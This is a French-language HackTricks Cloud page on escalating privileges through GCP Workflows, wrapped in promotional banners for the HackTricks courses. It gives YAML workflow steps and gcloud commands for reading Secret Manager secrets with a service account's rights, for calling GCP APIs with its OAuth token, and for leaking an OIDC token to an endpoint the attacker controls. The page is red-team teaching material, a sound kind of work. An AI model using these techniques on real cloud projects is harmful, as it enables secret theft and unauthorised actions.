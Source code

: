# GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Informations de base :

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

À ma connaissance, il n'est pas possible d'obtenir un shell avec accès à l'endpoint de métadonnées contenant les identifiants de service (SA) du SA attaqué à un Workflow. Cependant, il est possible d'abuser des permissions du SA en ajoutant les actions à effectuer à l'intérieur du Workflow.

Il est possible de trouver la documentation des connecteurs. Par exemple, voici la [**page du connecteur Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Dans la barre latérale, il est possible de trouver plusieurs autres connecteurs.

Et ici, vous pouvez trouver un exemple de connecteur qui imprime un secret :
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Mise à jour depuis la CLI :
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Si vous obtenez une erreur comme `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, il suffit de **patienter une minute et d'essayer à nouveau**.

Si vous n'avez pas accès au web, il est possible de déclencher et de voir l'exécution d'un Workflow avec :

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Vous pouvez également vérifier la sortie des exécutions précédentes pour rechercher des informations sensibles
{% endhint %}

Notez que même si vous obtenez une erreur comme `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` parce que vous n'avez pas cette permission, le workflow a été généré.

### Fuite du jeton OIDC (et OAuth ?)

Selon [**la documentation**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), il est possible d'utiliser des étapes de workflow qui enverront une requête HTTP avec le jeton OAuth ou OIDC. Cependant, tout comme dans le cas de [Cloud Scheduler](gcp-cloudscheduler-privesc.md), la requête HTTP avec le jeton Oauth doit être envoyée à l'hôte `.googleapis.com`.

{% hint style="danger" %}
Par conséquent, il est **possible de fuir le jeton OIDC en indiquant un point de terminaison HTTP** contrôlé par l'utilisateur, mais pour fuir le **jeton OAuth**, vous auriez **besoin d'un contournement** pour cette protection. Cependant, vous pouvez toujours **contacter n'importe quelle API GCP pour effectuer des actions au nom du SA** en utilisant soit des connecteurs, soit des requêtes HTTP avec le jeton OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Avec cette permission au lieu de `workflows.workflows.create`, il est possible de mettre à jour un workflow déjà existant et d'effectuer les mêmes attaques.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
